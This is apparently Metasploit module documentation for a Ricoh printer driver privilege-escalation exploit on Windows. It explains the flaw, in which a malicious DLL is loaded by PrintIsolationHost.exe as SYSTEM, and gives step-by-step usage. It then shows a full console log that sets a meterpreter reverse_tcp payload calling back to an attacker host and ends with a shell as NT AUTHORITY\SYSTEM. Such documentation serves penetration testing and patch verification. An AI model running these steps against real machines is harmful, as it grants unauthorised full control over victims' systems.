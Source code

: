 ## Vulnerable Application

[Various Ricoh printer drivers](https://www.ricoh.com/info/2020/0122_1/list)
allow escalation of privileges on Windows systems.

For vulnerable drivers, a low-privileged user can read/write files within the
`RICOH_DRV` directory and its subdirectories.

`PrintIsolationHost.exe`, a Windows process running as NT AUTHORITY\SYSTEM,
loads driver-specific DLLs during the installation of a printer. A user can
elevate to SYSTEM by writing a malicious DLL to the vulnerable driver directory
and adding a new printer with a vulnerable driver.

Multiple runs of this module may be required given successful exploitation is
time-sensitive.

## Verification Steps

1. Install a vulnerable Ricoh driver
2. Start msfconsole
3. Get a session with basic privileges
4. Do: `use exploit/windows/local/ricoh_driver_privesc`
5. Do: `set SESSION <sess_no>`
6. Do: `run`
7. You should get a shell running as SYSTEM.

## Scenarios

### Tested on Ricoh PCL6 Universal Driver `v4.13`

```
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Sending stage (206403 bytes) to 192.168.37.199
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.199:49670) at 2020-02-06 12:47:59 -0600

meterpreter > getuid
Server username: DESKTOP-A97LIDN\ricoh-test
meterpreter > sysinfo
Computer        : DESKTOP-A97LIDN
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use ricoh_driver_privesc

Matching Modules
================

   #  Name                                        Disclosure Date  Rank    Check  Description
   -  ----                                        ---------------  ----    -----  -----------
   0  exploit/windows/local/ricoh_driver_privesc  2020-01-22       normal  Yes    Ricoh Driver Privilege Escalation


[*] Using exploit/windows/local/ricoh_driver_privesc
msf5 exploit(windows/local/ricoh_driver_privesc) > set session 1
session => 1
msf5 exploit(windows/local/ricoh_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/ricoh_driver_privesc) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf5 exploit(windows/local/ricoh_driver_privesc) > check
[*] The target appears to be vulnerable. Ricoh driver directory has full permissions
msf5 exploit(windows/local/ricoh_driver_privesc) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Adding printer JLFJCi...
[*] Sending stage (206403 bytes) to 192.168.37.199
[*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.199:49673) at 2020-02-06 12:48:40 -0600
[*] Deleting printer JLFJCi
[+] Deleted C:\Users\RICOH-~1\AppData\Local\Temp\GFHCkvh.bat
[+] Deleted C:\Users\RICOH-~1\AppData\Local\Temp\headerfooter.dll

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-A97LIDN
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
